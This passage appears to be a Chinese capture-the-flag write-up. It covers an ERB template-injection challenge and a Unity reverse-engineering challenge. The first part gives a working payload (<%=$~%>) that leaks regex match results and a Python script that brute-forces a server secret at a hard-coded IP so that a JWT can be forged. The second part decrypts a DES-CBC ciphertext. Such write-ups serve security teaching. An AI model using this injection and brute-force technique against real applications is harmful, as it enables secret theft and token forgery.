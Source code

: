 存在erb模版注入，构造`name为&lt;%=$~%&gt;，do为&lt;%=$~%&gt; is working`

结合`ENV["SECRET"].match("#`{`params[:SECRET].match(/[0-9a-z]+/)`}`")`，

SECRET参数可控，如果匹配到SECRET，则`$~` (ruby特性，表示最近一次正则匹配结果) 会在页面中返回

于是可以爆破secret，然后伪造JWT去买flag。

爆破脚本如下：

```
import requests
import base64

url = "http://47.110.15.101"
re = requests.session()
re.get(url + "/api/auth")

flag = "09810e652ce9fa4882fe4875c"
while True:
   i = ""
   for i in "0123456789abcdef":
       #now = flag + i
       now = i + flag
       res = re.get(url + "/work?name=%3c%25%3d%24%7e%25%3e&amp;do=%3c%25%3d%24%7e%25%3e%20is%20working&amp;SECRET="+now)
       if len(res.text) &gt; 48:
           print res.text
           print flag
           flag = now
           break
print flag
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0144aa706bb5fd8b09.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0144c083e163191338.png)



## Re

### <a class="reference-link" name="Who%20is%20he"></a>Who is he

基于unity开发的游戏，实际只有一个视频播放器，输入框和一个确认框。

找了下资料，默认&lt;Game&gt;_dataManagedAssembly-CSharp.dll应该是存放主逻辑的地方。dnspy一把梭。

只是一个DES CBC模式的加密，密文密钥都有，初始iv和key相同。注意C#里面字符串默认是Unicode，密钥是”1234“，每个字符后面都要加”x00”。

```
import base64
from Crypto.Cipher import DES
key = b"1x002x003x004x00"
des = DES.new(key, mode = DES.MODE_CBC, iv = key)
cipher = b"1Tsy0ZGotyMinSpxqYzVBWnfMdUcqCMLu0MA+22Jnp+MNwLHvYuFToxRQr0c+ONZc6Q7L0EAmzbycqobZHh4H23U4WDTNmmXwusW4E+SZjygsntGkO2sGA=="
cipher = base64.b64decode(cipher)
plain = des.decrypt(cipher)[0:-8].decode("utf-16")
print(plain)
```

